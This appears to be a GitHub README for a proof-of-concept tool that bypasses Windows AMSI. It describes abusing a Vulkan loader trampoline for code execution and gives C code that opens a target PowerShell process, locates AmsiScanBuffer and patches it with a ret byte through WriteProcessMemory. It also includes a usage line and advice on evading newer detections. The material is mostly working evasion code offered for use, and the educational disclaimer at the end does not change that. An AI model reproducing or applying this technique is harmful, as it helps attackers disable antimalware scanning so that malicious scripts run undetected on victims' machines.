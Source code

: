 # VK* API AMSI Bypass

> *"When they patch one door, we find another..."*

**VK* API AMSI Bypass** exploits Vulkan graphics driver validation logic to execute arbitrary code and bypass Windows AMSI scanning. This technique uses the `vulkan-1.dll` trampoline functions as a proxy for code execution, making it undetectable by traditional API hooking detection methods.

## 🔬 The Technical Deep Dive

### The Core Concept: Vulkan Trampoline Exploitation

The Vulkan loader (`vulkan-1.dll`) has internal trampoline functions that perform **checksum validation** before executing callbacks. These functions are designed to validate Vulkan device objects, but we've turned them into our personal code execution engine.

### The Magic Struct: `EG_STR`

```c
typedef struct {
    uint64_t p, m, _1, _2, _3, _4, _5, _6, _7;
} EG_STR;
```

This innocent-looking struct is actually our **Proxy**:

- **`p`** → Points to `m` (the checksum location)
- **`m`** → Contains `0x10ADED040410ADED` (the magic checksum)
- **`_7`** → Our callback function pointer at offset 56 (0x38)

### The Vulkan Validation Logic

When `vkAllocateMemory()` is called, it performs this validation:

```assembly
mov rax, [rcx]        ; Get first struct member
mov r10, MAGIC         ; Load magic checksum
cmp [rax], r10         ; Compare [rax] with magic
jz valid_device       ; If equal, continue
call abort            ; Otherwise, crash and burn
```

**The trick**: `[rax]` means "dereference the address stored in rax". Since `p` points to `m`, and `m` contains the magic value, the check passes!

### Decompiled vkAllocateMemory Function

Here's the decompiled version of the `vkAllocateMemory_0` function that shows the exact validation logic:

```c
__int64 __fastcall vkAllocateMemory_0(__int64 *a1)
{
  __int64 v1; // rax

  if ( !a1 || (v1 = *a1) == 0 || *(_QWORD *)v1 != 0x10ADED040410ADEDLL )
  {
    sub_1800031B0(0, 392, 0, "vkAllocateMemory: Invalid device [VUID-vkAllocateMemory-device-parameter]");
    j_abort();
  }
  return (*(__int64 (**)(void))(v1 + 56))();
}
```

This decompiled code reveals:
- **Parameter validation**: Checks if `a1` is valid and dereferences it to get `v1`
- **Magic checksum check**: Compares `*(_QWORD *)v1` with `0x10ADED040410ADEDLL`
- **Callback execution**: Returns the result of calling the function pointer at `v1 + 56` (offset 56)
- **Error handling**: Calls `abort()` with a validation error message if checks fail

### The Callback Execution

After validation, the function does:

```assembly
mov rax, [rax + 0x38]  ; Get callback at offset 56
jmp rax                 ; Jump to our function
```

**Offset 56** = `7 * sizeof(uint64_t)` = `_7` member = our callback!

## 🎯 The AMSI Patching Process

### 1. Process Injection Setup
```c
target = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
```
We get a handle to the target process (the one running PowerShell with AMSI enabled).

### 2. AMSI Function Location
```c
HMODULE amsi = LoadLibraryW(L"amsi.dll");
PFN_AmsiScanBuffer scan = (PFN_AmsiScanBuffer)GetProcAddress(amsi, "AmsiScanBuffer");
uintptr_t offset = (uintptr_t)scan - (uintptr_t)amsi;
```
We calculate the **RVA (Relative Virtual Address)** of `AmsiScanBuffer` from the base of `amsi.dll`.

### 3. Target Process AMSI Discovery
```c
EnumProcessModules(target, mods, sizeof(mods), &cb);
for (size_t i = 0; i < (cb / sizeof(HMODULE)); i++) {
    GetModuleBaseNameW(target, mods[i], name, sizeof(name) / sizeof(wchar_t));
    if (_wcsicmp(name, L"amsi.dll") == 0) { tgt = mods[i]; break; }
}
```
We enumerate all loaded modules in the target process to find where `amsi.dll` is loaded.

### 4. The Patch
```c
uintptr_t addr = (uintptr_t)tgt + offset;
VirtualProtectEx(target, (LPVOID)addr, 1, PAGE_EXECUTE_READWRITE, &old);
unsigned char ret = 0xC3;
WriteProcessMemory(target, (LPVOID)addr, &ret, 1, NULL);
VirtualProtectEx(target, (LPVOID)addr, 1, old, &old);
```

**The payload**: `0xC3` = `ret` instruction
- **What it does**: Makes `AmsiScanBuffer` return immediately
- **Result**: AMSI scanning is completely bypassed
- **Why it works**: The function never reaches the actual scanning code, issue, 0xc3 is detected on newer builds, i recommend doing other patch, i left 0xc3(Ret) beacuse this is PoC

## 🎮 Usage

```bash
Vk-Amsi-Bypass.exe <PID>
```

---
## Pics:
<img width="849" height="392" alt="image" src="https://github.com/user-attachments/assets/f9f41647-35b2-4fd8-b944-547f9f634123" />
<img width="1095" height="211" alt="image" src="https://github.com/user-attachments/assets/1596977f-f570-42bb-b43e-c206019cafd6" />


*"In the game of cat and mouse, sometimes the mouse uses the cat's own rules against it."* 🐭🐱

**Disclaimer**: This is for educational purposes only. Use responsibly and ethically.

### Credits:
- https://github.com/whokilleddb/function-collections/tree/main/hijack_callbacks/vkAllocateMemory
- https://github.com/carved4/vulkan-proxy
